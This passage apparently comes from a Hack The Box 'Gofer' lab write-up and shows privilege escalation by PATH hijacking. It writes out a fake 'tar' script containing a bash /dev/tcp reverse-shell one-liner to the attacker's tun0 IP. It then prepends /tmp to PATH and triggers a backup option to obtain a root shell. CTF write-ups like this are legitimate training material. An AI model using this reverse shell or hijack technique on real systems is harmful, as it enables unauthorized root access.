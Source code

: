 ### **<strong><font color="DarkKhaki">PrivEsc using PATH variable</font></strong>**

At this point, we simply need to create a Bash script and name it '**tar**'. Here's the content of the file: <br/>

```bash
#!/usr/bin/bash
/usr/bin/bash -c 'bash -i >& /dev/tcp/tun0-IP/9997 0>&1'
```

> *Make sure to replace 'tun0-IP' with your tun0 IP address*


I'll save this file in the `/tmp` directory and prepend it to the `$PATH` environment variable using the following command: <br/>

```bash
tbuckley@gofer:/tmp$ export PATH=/tmp:$PATH
```

* Checking if `/tmp` has been added to the `$PATH`:

```bash
tbuckley@gofer:/tmp$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

tbuckley@gofer:/tmp$ which tar
/tmp/tar
```

Next, we'll start a netcat listener on port **9997** and trigger the backup script by choosing option **n°8**. This will execute our '**tar**' script instead of the expected binary `/usr/bin/tar`.

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-gofer/2023-08-02 01_52_57-KaliLinuxOS - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Reverse shell as root</i></center>
<br/>
